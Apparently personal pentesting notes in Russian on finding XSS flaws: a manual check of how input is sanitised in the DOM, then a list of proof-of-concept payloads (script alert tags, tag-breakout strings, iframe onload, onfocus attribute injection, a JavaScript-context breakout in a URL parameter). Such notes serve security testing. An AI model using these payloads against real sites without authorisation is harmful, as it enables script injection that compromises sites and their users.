 ## DETECT

### XSS - методология
- payload во все поля/параметры
- смотреть DOM на предмет санитизации
- в каком-то месте спец.символы не перекодируются/alert выполнится

<ins>Порядок проверки на XSS</ins><br>
- вставить qweqwe в поле ввода
- F12 -> CTRL+F -> qweqwe
- добавить qweqwe'"><  <br>
посмотреть как происходит санитизация символов (ПКМ -> edit as HTML).
Если символ не преобразуется, то возможно его использование.
- далее проверять DOM-структуру при вводе строк с символами <br>
Возможные варианты строк для вставки:
```
<script>alert('XSS')</script>
'">/<script>alert('XSS')</script>

(по ситуации)
</title>...
</script>...
</noscript>...
</textarea>...

(если alert() не срабатывает, хз почему но такое есть), то
<iframe onload="alert('XSS')">
'"></title></script><iframe onload='alert('XSS')'>
(есть атрибут <iframe srcdoc=""> но надо разобраться)

<script>alert('XSS')</script>
<script>alert('XSS')</script>

/page.php?name='%20autofocus%20onfocus='alert();
(onfocus не будет работать если у тэга input есть аттрибут type=hidden)

/page.php?name=";+alert();//
```

<ins>Плюсы <b>iframe</b></ins><br>
- легко заметить, но payload встраивается в страницу, но на onload работают санитайзеры
- есть аттрибут srcdoc
- не раскрутить XSS - есть почти гарантированный open redirect

Пробелы можно заменить на / и теги можно не закрывать, браузер сам их закроет.
Тег  <!-- коментирует все, что идет после него 